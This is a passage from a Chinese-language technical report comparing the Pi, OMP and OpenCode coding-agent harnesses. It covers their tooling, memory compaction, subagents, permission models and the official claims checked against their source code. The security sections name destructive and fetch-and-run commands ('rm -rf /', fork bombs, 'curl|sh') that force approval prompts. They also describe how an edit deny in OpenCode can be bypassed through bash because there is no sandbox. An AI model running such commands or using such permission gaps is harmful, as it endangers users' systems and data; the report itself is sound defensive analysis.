真正的变化在供应链与漏洞账。加固清单在旧版基础上继续加码：`save-exact=true`＋`min-release-age=2`（依赖发布满两天才允许进入，规避刚发布即投毒的攻击窗口）、pre-commit 锁死 lockfile、发布包内 npm-shrinkwrap＋install-lock、CI 定时 `npm audit signatures`、独立二进制附 SHA256SUMS、`pi update` 精确版本安装。但 2026-06 披露的两枚 CVE 证明扩展面曾真实失守：**CVE-2026-54327**（auth.json 凭据文件 umask 竞态，影响 0.28.0–0.78.0，本地低危）与 **CVE-2026-54328**（`-e` 临时包安装使用可预测 tmp 路径，多用户本机可被预置恶意扩展，CVSS 7.3），均修复于 0.78.1。两枚 CVE 的分布位置恰好印证 Pi 自己的威胁模型判断：内核循环无洞，失守点在"包安装/凭据落盘"这类装载路径——零内置权限不等于零安全工程，只是把防线集中到了供应链与装载守卫上。

### 4.4 设计哲学

#### 4.4.1 "提供原语而非功能"：最小 harness 派的纲领

Pi 官方 "What we didn't build" 清单在九对象中独一无二：不内置 MCP、子代理、plan mode、权限弹窗、todos、后台 bash——官方配文 "aggressive extensibility beats baked-in workflow"——即"提供原语而非提供完整功能"，本次核实该判断成立且被进一步强化：`fork/navigateTree` 把 session 树暴露为扩展可编程的一等公民，`registerProvider` 连模型供应商选择权都下放社区，约 70 个官方示例扩展（README 仍保守写 "50+"）覆盖 plan-mode、subagent、sandbox 等"官方不做但教你做"的功能位。这套哲学握有实证底气：作者自测论证四工具（read/write/edit/bash）极简 loop 即可与重型商业 harness 同档；Adaline Labs 的独立实验给出机制解释——四工具总定义低于 1,000 tokens 时工具选择零歧义，加入第 5 个与 bash 描述重叠的工具后选择立即退化；HN 热帖"Claude Code 单次任务发出 33k tokens、OpenCode 发 7k"（700pts/391 评论）引发的 tokenflation 讨论，则让最小派拿到真实账单层面的舆情共振。

与 OMP 的分歧正是从这条纲领生长出来的。OMP 作者 Bölük 在《The Harness Problem》（2026-02-12，HN 832pts）中提出对立论点：多数 agent 失败不是模型失败，而是编辑工具等 harness 环节的机械失败——他一个下午只换 harness（hashline 锚定编辑＋工具描述调优）就让 Grok Code Fast 1 的编辑成功率从 6.7% 升至 68.3%；独立复现则显示该收益有边界（Python 场景回退、作者基准仅 JS 且带 LSP 反馈回路构成混淆变量）。学术汇总的效应量给两派各发了一半奖牌：harness 方差 12.5–16pp 已超过同代模型方差 4.9pp。换言之，Pi 赌的是"工具越少，模型越不犯错"，OMP 赌的是"工具越精密，模型越少犯错"——两个赌约共用同一前提（harness 是一级工程变量），分歧只在边际收益的方向。第 5 章将检验后者如何把这条对立纲领工程化为 27＋2 工具平面的"电池全配"实践。

---

## 5. OMP：电池全配的纪律化 fork

第 4 章的 Pi 信奉"最小内核×极致扩展"，本章的 OMP（oh-my-pi，`can1357/oh-my-pi`）则是同一血脉上的反向实验：把上游明示不做的每一件事都做成内置。两者构成九对象中唯一一对"同根异途"样本，也因此成为检验"harness 该做减法还是加法"的天然对照组。OMP 官方营销材料之多在九对象中首屈一指，本章采取"机制性宣称 vs 独立核实"双线并行：凡可落到源码坐标者给出坐标，凡属效果与口径者逐项过堂。

### 5.1 定位与 fork 工程学

#### 5.1.1 逆向工程师的 fork：can1357、18.1k stars 与 549 个版本

OMP 是 Pi（`badlogic/pi-mono`）的 fork，2025-12-31 建仓；LICENSE 保留 MIT 双版权行——`Copyright (c) 2025 Mario Zechner` 与 `Copyright (c) 2025-2026 Can Bölük` 并列，从法律层面坐实衍生关系。作者 Can Bölük（can1357）为安全研究员、逆向工程师出身，履历含 VTIL、NoVmp（VMProtect 反虚拟化）与 CVE-2018-8897 PoC——这一背景直接解释了 OMP 对 Rust 原生组件与字节级控制的执念。截至 2026-07-17：18,114 stars / 1,662 forks / 856 open issues / 260 contributors；npm 自 2026-01-02 起发布 549 个版本（≈每天 2–3 个 release，最新 v17.0.1），月下载 242,171，迭代速度为九对象之最。社区定性两极：一方面被称为"the largest feature surface in the category"，另一方面"too many features""比 vanilla Pi 更费 token"的 bloat 抱怨已经出现。

与一次性 hard fork 不同，OMP 是有纪律的长期维护型 fork。`docs/porting-from-pi-mono.md` 记录了持续性 format-patch 回传机制：最近同步点为 pi-mono `b21b42d0`（2026-03-22），附 15 节移植手册——scope 重命名（`@mariozechner/*`→`@oh-my-pi/*`）、"回归陷阱清单"、明示的 **Intentional Divergences** 表（UI 架构、命名、auth 存储、扩展加载器、工具架构五项刻意分歧）与"跳过这些上游特性/保留这些 fork 特性"双清单；回传提交统一格式 `fix(coding-agent): backported pi-mono changes (<from>..<to>)`。代价同样写在账上：`packages/coding-agent` 从上游 53,167 行膨胀至 358,591 行 TypeScript（6.7×），`packages/agent` 从 8,244 行至 13,479 行——作者需长期独自消化上游每个变更的语义，856 个 open issues 与每天 2–3 个 release 并存，正是高速单人迭代的张力所在。

### 5.2 工具质量哲学

#### 5.2.1 hashline 锚定编辑与"全胜"宣称的独立证伪

OMP 与 Pi 的分歧是哲学级的。Pi 的信条（不内置 MCP/子代理/审批，4 工具 + <1000 token 系统提示）已见第 4 章；OMP 的对立论点由 Bölük 在《The Harness Problem》（2026-02-12，HN 热帖 832pts/295 评论）中系统阐述：**多数 agent 失败不是模型失败，而是编辑工具等 harness 环节的机械失败**——`apply_patch` 对非 OpenAI 模型失败率 46–51%，`str_replace` 要求模型逐字符复现空白。

hashline 是该论点的工程化身。机制层（`packages/hashline/`）：`read`/`grep` 输出携带 `[PATH#TAG]` 头，TAG 为整个归一化文件的 4 位大写 hex 内容哈希（xxHash32 系），逐会话快照存储（30 路径 × 4 版本）；模型编辑只引用行号与锚，**不复述任何旧文本**。补丁语言含 `SWAP/DEL/INS` 系列与 tree-sitter 块级操作；解析刻意宽容（容忍多种区间写法、裸 body 行自动补 `+`），但拒绝 apply_patch 哨兵与 `@@` hunk 头并附纠错文案；锚过期时 `recovery.ts` 以 `fuzzFactor: 0` 做快照回放，能证明结果有效才继续，同一 payload 连续 3 次 byte-identical no-op 则升级为硬错误。

效果层则是双线并行的第一处战场。作者基准（16 模型 × 180 任务 × 3 轮，数据全表公开，属一手但为自评实验）：Grok Code Fast 1 编辑成功率 6.7%→68.3%，Grok 4 Fast 输出 token −61%；然而同一张表内 hashline 对 `apply_patch` 基线只胜 14/16，对 `replace` 基线更有 DeepSeek V3.2 −8.3pt、GPT-5.2 Codex token +26% 的反例——官网 vs 页"beats str_replace on every model we tested"的措辞与作者自有数据直接冲突。独立复现进一步收缩边界：nwyin edit-bench（3 模型 × Python/TS/Rust × 20 任务）发现 hashline 在 Python 场景明显回退（gemini-3-flash 95%→70%）、TS 大体中性，并指出作者基准仅 JS 且带 LSP 反馈回路，构成混淆变量。核实结论：收益真实但有边界——**对弱模型与非 OpenAI 模型收益最稳，前沿模型互有胜负，"全胜每模型"不成立**。值得注意的是生态采信与效果争议并不同步：opencode#13393、kilocode#11492、claude-code#25775 三个竞品项目均有移植 hashline 的 issue——其最大可独立证明的成就不在跑分，而在把"harness 是独立工程学科"的论点变成了被三大对手移植的具体工件。

#### 5.2.2 LSP 14 ops / DAP 28 ops / read 摘要化 / 73.7k 行 Rust natives

工具质量哲学的另一半是 IDE 级感知的内置化。`lsp` 工具的 action 枚举经逐一清点恰为 14 个（diagnostics 至通用 `request` 逃逸口），`rename_file` 向所有匹配 server 广播 willRename/didRename 事件；`debug` 工具恰为 28 个 action（含内存读写、反汇编），带单会话门控、能力检查与只读/执行两级审批分级——两条宣称精确属实，"14 个 bundled 适配器"数量未逐一清点，大体可信。`read` 对 ≤2MiB/≤20,000 行的文件默认调原生 `summarizeCode()`：保留声明、折叠函数体，页脚给出具体可重读区间（如 `<path>:5-16,40-80`），一个工具统一吃文件/目录/压缩包/SQLite/文档/图片/URL。支撑这些的是第一方 Rust 原生层：8 个 crate 实测合计 **73,726 行**（pi-shell 38,107、pi-natives 17,106、pi-walker 6,182、pi-iso 4,052 等），经 N-API 内嵌分发。此处需更正两处口径："100k+ rust core"仅当计入 vendored 依赖（brush 等 99,654 行）才成立；第三方流传的"~55k"实为 pi-shell+pi-natives 两 crate 之和（55,213）的误读——第一方口径应为 73.7k 行。

### 5.3 六维拆解

OMP 运行时仍保持 Pi 的三层骨架（provider 抽象 → agent core → coding agent），但每一层都被大幅扩写，并在工具之下垫了一层 Rust 原生底座：



| 维度 | OMP 机制要点 | 与上游 Pi 的关系 |
|---|---|---|
| 感知 | `lsp` 14 ops / `debug` 28 ops / `read` 摘要化；16 路配置继承 | 上游基本不内置（交给扩展），fork 全新重资产 |
| 记忆 | compaction 六触发 × 五策略，默认 snapcompact 位图；TTSR 流内规则注入；prune 40k/20k/50 | 上游为单级 LLM 摘要（16384/20000），属代际跨越 |
| 执行 | 27+2 工具平面；hashline 锚定编辑；eval 双内核回环桥；内嵌 brush | 上游 4 工具哲学，代码膨胀 6.7× 的主因 |
| 控制 | 一等 `task` 子代理 + schema `yield` + pi-iso 七后端 + `hub` 互消息 | 上游明示 "No sub-agents"，fork 全内置 |
| 安全 | 工具申报三级 + 用户策略三档（默认 yolo）+ ACP 权限路由；无 OS 沙箱 | 上游零内置权限（明示外置容器化），fork 内置但默认全放行 |
| 扩展 | 与 Pi 同构的扩展 API + Claude marketplace 格式兼容 + `/reload-plugins` 热重载 | 源级大体兼容（`pkg.pi` 回退），TUI header/footer 为记录的 no-op |
| （附）持久化 | JSONL v3 会话树 + blob store + 终端面包屑 + artifacts | 树模型本身继承自 Pi，工程配套大幅加深 |
| （附）入口 | TUI / one-shot / RPC / ACP 四模式 | 前三者上游同有，ACP 为 fork 新增 |

速览表呈现一个规律：OMP 的六维增量几乎全部落在"上游明示不做"的格子里——协议感知、记忆、子代理三大块正是 30 万行代码增量的主要去向；而继承自上游的部分（会话树模型、扩展 API 形态）恰恰改动最小。fork 的工程纪律体现在"该继承的一行不动，该分叉的整章重写"，这也让 5.1 的 format-patch 回传成本长期可控。

#### 5.3.1 记忆：snapcompact 位图压缩与 TTSR 流内规则

记忆层是 OMP 最激进的设计。压缩触发有六条路径（手动 `/compact`、溢出恢复、不完整输出、阈值维护 `window − max(15%, reserveTokens)`、mid-turn、idle），策略五种，默认 **snapcompact**：放弃 LLM 摘要调用，把被丢弃历史压缩空白后用捆绑的公共领域像素字体打印到 PNG 帧，按模型视觉计费公式逐模型调帧形状（Claude/Gemini/GPT 各有字体与分辨率预设）。官方经济性口径为 1568² 帧承载约 4 万字符 ≈1 万 token、计 3,279 image tokens（≈1/3 输入价）——机制源码属实，经济性数字属官方口径；非视觉模型回退 context-full。配套预压缩修剪保护最新 40,000 tool token、要求至少省 20,000、`MIN_PRUNE_TOKENS=50`（与 OpenCode 的 prune 参数同值，是原语趋同的旁证）。但激进设计已有真实故障：issue #3387（2026-06-24）——视觉门控只看 `model.input` 是否含 image，Copilot Business 端点不支持视觉时压缩后会话永久 400；自评 F1 0.88 vs LLM 摘要 0.90 亦无第三方复核。**TTSR**（time-traveling stream rules）让规则以 regex 或 ast-grep 条件监听 text/thinking/toolcall 三条流，命中即同步 abort → 50ms 后构造 `<system-interrupt>` 隐藏消息 → 从同一位置重试；"0 tokens until match"（规则不进系统提示）与"survives compaction"（`ttsr_injection` 会话条目独立持久化恢复）两条宣称均经源码核实属实。

#### 5.3.2 执行：Python/Bun 双内核与 tool.<name> 回环桥

`eval` 工具提供双内核：Python 为持久子进程（NDJSON over stdio，vanilla 3.8+ 即可），JS 为 Bun Worker，内核跨单元格存活。核心差异化是回环桥——两侧都暴露 `tool.<name>(args)` 调宿主任意会话工具，另有 `completion()`（schema 强制结构化返回）、`agent()`（走 task 同路径，返回 `agent://<id>` DAG 句柄）、`parallel/pipeline`。单元格超时是 IdleTimeout 看门狗且**桥调用期间暂停**（引用计数），长 fanout 不会被误杀；环境经 allowlist + denylist 过滤并剥离 OpenAI/Anthropic/Gemini 等 API key——沙箱意识体现在了执行后端。

#### 5.3.3 子代理：一等 task、schema yield 与 pi-iso 七后端隔离

子代理是一等公民：`task` 工具 + frontmatter 声明的 agent 档案；隐藏工具 `yield` 负责按 schema 交卷（3 次提醒强制，对照横评中"prose→schema 回传"趋势的先行者）；隔离由 Rust crate pi-iso 提供七种后端（kernel overlay、fuse-overlayfs、APFS、Btrfs、ZFS、reflink、ProjFS，递归复制兜底），merge 支持 patch 或 `omp/task/<id>` 分支 cherry-pick；完成会话驻留 `AgentRegistry`，空闲 7 分钟 parked、`hub` 消息复活。对照 Pi 的 "No sub-agents"，这是 fork 哲学分歧最直接的落地。

#### 5.3.4 安全：三级审批（默认 yolo）与 ACP 权限路由

"fork 继承上游零权限模型"的想当然在此被否定：OMP 内置完整审批体系。每个工具申报 `read|write|exec` 层级（未声明默认 exec、MCP 默认 write）；用户策略 `always-ask|write|yolo` 三档且**默认 yolo**——开箱即无人值守，审批是 opt-in；工具可声明安全 override 强制 prompt（`rm -rf /`、fork bomb、curl|sh 等），但 yolo 下仍放行，属"默认信任、可收紧"模型。ACP 会话的审批不走 TUI 而路由至客户端（`session/request_permission` 或 form elicitation），拒绝/不支持则工具调用失败、**不静默放行**；子代理 headless 强制 yolo 防卡死，父级 `task` 审批构成授权边界。须同时写明：OMP 无 OS 级沙箱，其 vs/codex 页对此表述罕见地诚实（"a different threat model, both defensible"）。

#### 5.3.5 多入口：四模式与 16 路配置继承

四种入口中 interactive/one-shot/RPC 继承自上游，ACP 模式（面向 Zed 等编辑器）为 fork 新增；RPC 的 host tools/URI 回调允许任意语言宿主向 agent 注册工具与 URI scheme，是 polyglot 嵌入的杀手级特性，headless 模式下自动关闭标题生成等不可预测行为。配置继承经 `src/discovery/` 的 16 个 provider（claude、codex、cursor、windsurf、cline、gemini、opencode、github、vscode 等），context 文件按优先级 native(100) > claude(80) > agents/codex(70) > … > agents-md(10) 去重，cursor 的 MDC frontmatter、codex 的 config.toml MCP 段均有源码级解析。但官网"`.claude/agents` 变 task 子代理档案"的宣称与自家文档矛盾：跨 harness agents 目录被刻意跳过（frontmatter schema 不符），仅 Claude 插件根的 `agents/` 计入。

### 5.4 宣称核实表

#### 5.4.1 18 项官方宣称逐一核实（证实 / 存疑 / 矛盾）

下表将官网、README 与对比页的 18 项可核实宣称逐一过堂；判定三级——**证实**（源码/一手证据吻合）、**存疑**（机制存在但关键数字无独立复核，或存在已记录的边缘故障）、**矛盾**（与源码、作者自有数据或自家文档冲突）。所有核实以 2026-07-17 源码基线 `b0d04e5` 为准。

| # | 官方宣称 | 判定 | 关键依据 |
|---|---|---|---|
| 1 | 40+ providers | 证实 | 约 45 个 provider ID（14 核心 + 21 附加 + 本地引擎 + OAuth 系），`providers.md` |
| 2 | 14 LSP ops / 28 DAP ops | 证实 | 两个 action 枚举逐一清点吻合 |
| 3 | 32 built-in tools | 矛盾 | `BUILTIN_TOOLS` 实测 27 公开 + 2 隐藏（`yield`/`goal`）；计入条件工具才勉强凑近 32 |
| 4 | "100k+ rust core" | 矛盾 | 第一方 8 crate 实测 73,726 行；计入 vendored（99,654 行）才超 100k，口径未注明 |
| 5 | hashline "beats str_replace on every model we tested" | 矛盾 | 作者自有全表：胜 patch 14/16，vs replace 有 DeepSeek V3.2 −8.3pt、GPT-5.2 Codex token +26% |
| 6 | hashline 收益普适、可独立复现 | 存疑 | nwyin 复现：Python 回退（95%→70%）、TS 中性、Rust 互有胜负；作者基准带 LSP 回路混淆 |
| 7 | "Edits land on the first attempt" | 存疑 | 锚校验+恢复+no-op 护栏机制属实，但无首次成功率公开数据 |
| 8 | TTSR：0 tokens until match / 中断重试 / survives compaction | 证实 | 三机制均有源码与会话条目持久化证据 |
| 9 | snapcompact "instant, local, free"、≈1/3 输入价、F1 0.88 vs 0.90 | 存疑 | 机制与自评基础设施（22 个编号实验）真实；F1 无第三方复核，#3387 暴露视觉门控边缘故障 |
| 10 | 子代理：worktree 隔离 + schema 校验返回 + IRC 互 DM | 证实 | 且超出宣称：pi-iso 七后端、cherry-pick merge、7 分钟 park/hub 复活 |
| 11 | eval 双内核经回环桥调回 agent 工具 | 证实 | `tool.<name>` 双侧代理、桥期间超时暂停、env 剥离均在源码 |
| 12 | 首 run 继承 `.claude/.cursor/.windsurf/.gemini/.codex/.cline` 等配置 | 证实 | 16 个 discovery provider，context/rules/MCP/settings/commands 多能力继承 |
| 13 | `.claude/agents/*.md` frontmatter 变 task 子代理档案 | 矛盾 | 自家文档明示跨 harness agents 目录被刻意跳过（schema 不符），仅 Claude 插件根计入 |
| 14 | "Sessions branch like git" | 证实 | 属实但树模型继承自 Pi；OMP 增量是 blob store、面包屑、迁移链 |
| 15 | 四种入口 + ACP（Zed） | 证实 | ACP 为 fork 新增，上游无此 mode |
| 16 | Windows-native 无需 WSL | 存疑 | win32 leaf 包与 ProjFS 后端存在；但 #1368 显示编译版插件解析在 Windows 破损 |
| 17 | /collab E2E 加密共享（AES-256-GCM、key 只在 URL fragment） | 存疑 | 设计与代码存在，未见第三方安全审计，按自述采信 |
| 18 | 本地 titling/记忆抽取（transformers.js，"housekeeping 不出本机"） | 证实 | `src/tiny/` 与 `@huggingface/transformers` 依赖在源码 |

18 项宣称的分布为**证实 9、存疑 5、矛盾 4**，分层规律清晰：机制性宣称（枚举清点、生命周期、协议行为）几乎全部经得起源码复核，翻车集中在两类——效果性宣称（hashline 全胜、首次成功率、snapcompact 经济性）与计数口径（32 工具、100k+ Rust）。原宣称清单另有"every tool, benchmaxxed"一条纯修辞，因不含可核实断言未列入计数。两点"缺席"同样需记录：其一，截至 2026-07-17 的 Terminal-Bench 2.0 榜单快照（142 条目）中无 OMP 条目，也无公开 SWE-bench 成绩——其能力叙事完全由编辑格式基准与功能面对比支撑；其二，/collab 加密与 snapcompact 的 F1 数字一样，处于"代码存在、审计缺位"状态。给读者的操作建议由此直接可得：把 OMP 仓库内 `docs/` 当工程规格书读（可信度高，本章 A 级核实基本吻合），把 omp.sh 的 vs 页当广告读（逐项打折）。

---

## 6. OpenCode：把 agent 运行时做成开放服务

早期对比（Pi×OpenCode×Claude Code 三方对比）对 OpenCode 的架构判断建立在二手走读之上：client/server 分离、OpenAPI+Stainless 类型安全 SDK、LSP 事件总线三项结论成立，但安全模型、上下文压缩、session 存储、扩展机制四格只能标注"未见公开详细说明"——那是真实的信息缺口，而非能力差评。本章以 `anomalyco/opencode` @ `3a1c6df`（2026-07-17，v1.18.3）的源码直读为基线，先复核旧结论的时效性——支撑架构判断的技术栈已整体换代——再用约三分之二篇幅把四大缺口补齐到源码坐标级。

### 6.1 定位与商业化

#### 6.1.1 SST→anomalyco、186k stars/npm 9M、Zen/Go/Black/Enterprise 四线

OpenCode 由 Anomaly, Inc.——即 SST（Serverless Stack）团队，Y Combinator 背景，CEO Jay V、CTO Frank Wang、联合创始人 Dax Raad 与 Adam Elmore——开发，仓库于 2025 年末至 2026 年初从 `sst/opencode` 迁移至 `anomalyco/opencode`。采用度硬数据（as-of 2026-07-17）：186,615 stars（同日 API 口径 186,601）/ 23,401 forks，居九对象之首；npm 包 `opencode-ai` 月下载 9,048,206、周下载 1,522,096，Homebrew 30 天安装 32,756；contributors 按 GitHub 官方口径（默认分支唯一 commit 作者）为 **455**——媒体流传的"800–900+"系未拆解宽口径，核实后一律以 455 为准。发版节奏约每天一个 stable（最新 v1.18.3，2026-07-16；npm 版本条目累计 11,293 含预发布）。营销口径"6.5–7.5M 月活开发者"无独立验证方法（复读链 2.5M→7.5M 逐月膨胀），按 C 级处理并与上述可验证数据严格分开。

商业化四线于 2026 年上半年铺开：**Zen**（pay-as-you-go 模型网关，含免费模型）、**Go**（$10/月开源模型包）、**Black**（$200/月，首发售罄）、**Enterprise**（按席位定制：集中配置+SSO+强制内部网关）。这条商业化路径的转折点是 2026-01-09 Anthropic 服务端封禁第三方客户端冒用 Claude 订阅 OAuth（核实日期；OpenCode 于 02-19 移除相关代码）；OpenAI 随即反向站台、向 OpenCode 等开放 Codex 订阅接入，事件后两周 OpenCode +18,000 stars、2026-02 达 126K，并于 2026-03-20 登顶 HN（1,274pts/618c）。社区口碑两极：provider 切换自由与 LSP 诊断回喂被反复称道，而 Builder.io 同模型同任务实测 OpenCode 比 Claude Code 慢 78% 但多产 21–28% 测试——harness 决定"快 vs 细"取向的典型样本；"无持久记忆"（无 CLAUDE.md 等效沉淀物）与模型-harness 接缝静默崩坏（DeepSeek V4 Pro 协议不匹配案例）是主要抱怨。Terminal-Bench 2.0 榜单（142 条目快照，2026-07-17）中 OpenCode+Claude Opus 4.5 列 #64＝51.7%（2026-01-12 提交），经核实为"自提交中游旧条目"，其叙事位置不受顶部作弊污染影响。

### 6.2 架构

#### 6.2.1 client/server 演变：Go TUI→OpenTUI+Solid、Hono→Effect HttpApi、Stainless→hey-api

早期"client/server 彻底解耦"的架构判断仍然成立——agent loop、工具执行、会话状态全部收敛于独立 HTTP 服务，TUI 只是众多客户端之一——但支撑这一判断的技术栈已整体换代，旧结论需逐项打上半过时标注：

- 服务端：**Hono 已从核心移除**（仅企业控制台残留依赖），换成 **Effect HttpApi**（`effect/unstable/httpapi`）+ `@effect/platform-node` NodeHttpServer，路由聚合为 17 个 group；运行时仍为 Bun，`bun build --compile` 出单文件二进制；
- TUI：Go bubbletea 实现被彻底删除——全仓 `find -name "*.go"` **零命中**——现为 **OpenTUI（Zig 渲染核）+ Solid.js** 的纯 TypeScript 实现；
- SDK：OpenAPI 3.1 spec 仍在 `/doc` 暴露，但代码生成器从 Stainless 换成 **`@hey-api/openapi-ts@0.90.10`**，产物分 v1/v2 两套（含 SSE patch workaround）；
- 事件与发现面维持不变：`GET /event` SSE 事件流（首发 `server.connected`）、mDNS 服务发现（`opencode.local`）、`OPENCODE_SERVER_PASSWORD` Basic Auth。



三次替换的共同指向是收窄技术栈离散度：Go 与 Hono 退出后，server、TUI、SDK 收敛到单一 TypeScript/Effect 生态，与 6.3.4 的插件体系（TS 模块+顺序钩子）及 6.4 的配置体系共用同一语言与运行时，多客户端一致性的维护成本随之下降。客户端矩阵在 2026-07 已扩至六个表面（图中所示），移动端仍无官方 App（feature request 仍 open）。provider 归一则是已成立且未变的结论：`@opencode-ai/llm` 封装 Vercel AI SDK 的数十个 provider 包并挂接 models.dev 模型注册表，2026-05 起部分 provider 增开 native runtime 旁路——"不重新发明轮子、把维护负担转移给上游生态"的务实路线延续至今。

### 6.3 六维拆解（重点补四大缺口）

| 维度 | 机制要点（2026-07 源码基线） | 早期判定 → 本章判定 |
|---|---|---|
| 感知 | AGENTS.md+CLAUDE.md 兼容加载链（可关）；LSP 事件总线+全局诊断 map，编辑后诊断回注；ripgrep/watcher/formatter | 成立且增强 |
| 记忆 | 两级压缩：可逆 prune（40k 保护/20k 起剪/跳过近 2 turn，**默认关**）+ anchored summary（六段模板、尾部预算 clamp(usable×25%, 2k, 8k)、自动续跑） | 缺口② → 已补齐 |
| 执行 | 15+ 内置工具（bash 经 tree-sitter 解析+arity 词典提 pattern、edit 带 Levenshtein 0.65 模糊回退、task 子代理、实验性 lsp/plan/execute）；独立 git-dir 快照支撑 /undo /redo | 大幅新知 |
| 安全 | 三态权限（allow/ask/deny）`findLast`"最后匹配获胜"；官方自认 UX 层、无 OS 沙箱；代码中 "sandbox" 实为 git worktree 并行工作区 | 缺口① → 已补齐 |
| 持久化 | SQLite（drizzle）`opencode.db` 三表+data JSON 列；share→opncd.ai（企业自托管开关在码）；sync 事件溯源（单写者多端 replay） | 缺口③ → 已补齐 |
| 扩展 | npm/目录四源插件、Bun 按需安装、20+ 顺序钩子（permission.ask 裁决、compacting 定制）；7 内置 agent；MCP OAuth 全自动 | 缺口④ → 已补齐 |

速览表呈现出 OpenCode 六维的统一性格——"机制内置、策略外置"的中间路线：每一维都有机制存在，但默认值普遍宽松（prune 默认关、权限多数默认 allow、执行隔离缺席），收紧责任被系统地交给配置层与插件层两个可编程面。与第 4 章 Pi"全部外置"、第 5 章 OMP"全部内置"相比，这一选择与 OpenCode 服务六表面客户端、跨个人到 Enterprise 组织形态的商业定位自洽：默认宽是为了不打扰形态各异的客户端交互，可编程是为了让企业治理（6.4）有落点。代价同样写在表上：安全与执行隔离是全表最弱的两格。

#### 6.3.1 安全：findLast"最后匹配获胜"源码铁证；SECURITY.md 自认 UX 层；worktree "sandbox"语义澄清

早期标注"未见公开详细说明"的安全模型，本轮获得源码级答案。权限引擎位于 `src/permission/index.ts`（223 行），其裁决函数仅数行（:28-38）：

```ts
return rulesets.flat()
  .findLast((rule) => Wildcard.match(permission, rule.permission)
                   && Wildcard.match(pattern, rule.pattern))
  ?? { action: "ask", permission, pattern: "*" }   // 兜底 = ask
```

`findLast` 即"后写规则覆盖先写"，匹配失败兜底 `ask`——这把"规则顺序"直接变成了权限语义，与 deny-first（更严格者获胜）的经典默认相反：在 OpenCode 里，配置靠后的来源（如 agent 级规则、`OPENCODE_PERMISSION` 环境变量）天然压制靠前来源，写配置的人必须意识到顺序即权力。其上的 ask/reply 状态机（:67-167）支持 once/always/reject 三态回复：always 把工具建议的 patterns 追加进会话级内存规则（不持久化）并级联放行同 session 其余 pending，reject 则级联拒绝并可把纠正文本回灌给模型。权限键全集 12 个（read/edit/glob/grep/bash/task/skill/lsp/webfetch/websearch/external_directory/doom_loop），多数默认 allow，`doom_loop` 与 `external_directory` 默认 ask，`*.env` 默认 deny（`*.env.example` 例外）；doom_loop 是"同一工具以完全相同输入连续出现 3 次"即打断的死循环保险丝；`pattern:"*"` 且 deny 的工具直接从 LLM 可见工具集中剔除（plan agent 禁用编辑即此机制）。

结论性证据在官方威胁模型：SECURITY.md（2026-01-12 更新）明示 "**No Sandbox** — OpenCode does not sandbox the agent. The permission system exists as a UX feature… it is not designed to provide security isolation. If you need true isolation, run OpenCode inside a Docker container or VM"，并把 "Sandbox escapes" 列为 out-of-scope。源码侧交叉实证：全仓 grep `seatbelt|seccomp|bubblewrap|bwrap|sandbox-exec|firejail|nsjail` 在 `packages/opencode/src` 与 `packages/core/src` **零命中**，bash/edit 均直接 `ChildProcess`/fs 调用，无命名空间或容器包装。此处必须做语义澄清：代码中确有 "sandbox" 一词，但它指 **git worktree 并行工作区**——project 表的 `sandboxes` 字段、`worktree/index.ts` 在数据目录下 `git worktree add` 出并行工作副本、实验性 API "List all sandbox worktrees"——用途是让多个 session/子代理在隔离目录并行干活，与执行隔离无关；把该词读作沙箱是九对象语境中最常见的误读之一。网络侧同样无内置出站代理或域名白名单，server 模式仅一层可选 Basic Auth。社区已用脚投票：issue #21733《Add filesystem sandbox for bash/subprocesses》（2026-04-09，仍 open）指出 `edit` deny 可被 bash 绕过、`external_directory` 只是权限层而非进程 containment；opencodebox（bubblewrap+seccomp）、navikt/cplt（Seatbelt/Landlock+seccomp）、npm `opencode-sandbox` 等第三方 wrapper 填补了官方留白。2026-01-11 的未授权 RCE HN 帖（432pts）则是这一默认姿态的现实注脚。

#### 6.3.2 记忆：两级策略 prune + anchored summary

压缩管线存在双套实现：v1 处理器管线版 `session/compaction.ts`（562 行，当前主路径）与 v2 事件溯源版 `core/src/session/compaction.ts`（新内核，以下参数以 v1 为主、v2 佐证）。触发由 `isOverflow` 判定：可用窗口 `usable = limit.input − reserved`，`reserved = min(20_000, maxOutputTokens)`（overflow.ts:11-21），`compaction.auto=false` 或 `OPENCODE_DISABLE_AUTOCOMPACT` 可关；媒体附件撑爆上下文时另有 replay 分支，把附件降级为 `[Attached mime: filename]` 文本占位重放。压缩本体分两级：

**(a) 工具输出剪枝 prune**（默认关，`compaction.prune` 开启）：常量 `PRUNE_PROTECT=40_000`（最近 40k token 工具输出受保护）、`PRUNE_MINIMUM=20_000`（可剪总量须超 20k 才动手）、受保护工具仅 `["skill"]`；算法从最新消息倒序遍历、跳过最近 2 个 user turn，给更早的 completed tool part 打 `state.time.compacted` 标记——**输出本体保留在存储中，仅在送入模型时清除**，因而是可逆压缩。

